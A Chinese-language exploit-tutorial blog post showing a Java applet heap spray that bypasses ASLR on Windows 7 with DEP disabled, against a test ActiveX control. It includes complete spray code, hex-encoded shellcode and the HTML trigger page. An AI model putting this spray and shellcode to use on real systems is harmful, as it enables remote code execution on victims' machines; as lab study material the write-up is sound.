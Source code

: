 ```yaml
---
layout:		post
title:		利用部分覆盖定位内存地址
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 7 Professional sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>JRE版本: 1.4.2_06  
>注意: 关闭系统DEP  
<!-- more -->


新建AppletSpray.java, 贴入以下代码

```
//AppletSpray.java

import java.applet.*;
import java.awt.*;

public class AppletSpray extends Applet{
	public void init(){
		String[] mem=new String[1024];
		StringBuffer buffer=new StringBuffer(0x100000/2);
		buffer.append("\u8281\u8182");
		for(int i=0;i<(0x100000-16)/2;i++)
			buffer.append('\u9090');
		Runtime.getRuntime().gc();
		for(int j=0;j<90;j++)
			mem[j]+=buffer.toString();
	}
}
```

编译Applet

```
> javac path\to\*.java -target 1.1
```

新建test.html, 贴入以下代码

```
<html>
<body>
<applet code=AppletSpray.class width=300 height=50></applet>
<script>alert("开始溢出!");</script>
</body>
</html>
```

OD附加上去, 在内存检索0x81828281

![](/assets/img/exploit/2017-12-30-break-aslr-java-applet-heap-spray/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-java-applet-heap-spray/0x01.png)

选择0x11111111作为稳定的跳转地址, 填充shellcode

```
//exp.java

import java.applet.*;
import java.awt.*;

public class exp extends Applet{
	public void init(){
		String shellcode="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842" +
            	"\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78" +
            	"\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af" +
            	"\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978" +
            	"\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c" +
            	"\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530" +
            	"\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50" +
            	"\u90d7";
		String[] mem=new String[1024];
		StringBuffer buffer=new StringBuffer(0x100000/2);
		for(int i=0;i<(0x100000-14)/2-shellcode.length();i++)
			buffer.append('\u9090');
		buffer.append(shellcode);
		Runtime.getRuntime().gc();
		for(int j=0;j<90;j++)
			mem[j]+=buffer.toString();
	}
}
```

新建exp.html

```
<html>
<body>
<applet code=exp.class width=300 height=50></applet>
<object classid="clsid:A5E74D94-AAB9-4A83-8216-250BA9D9E578" id="test"></object>
<script>
var s = "\u9090";
while(s.length < 54){
	s += "\u9090";
}
s += "\u1111\u1111";
test.test(s);
</script>
</body>
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-java-applet-heap-spray/0x02.png)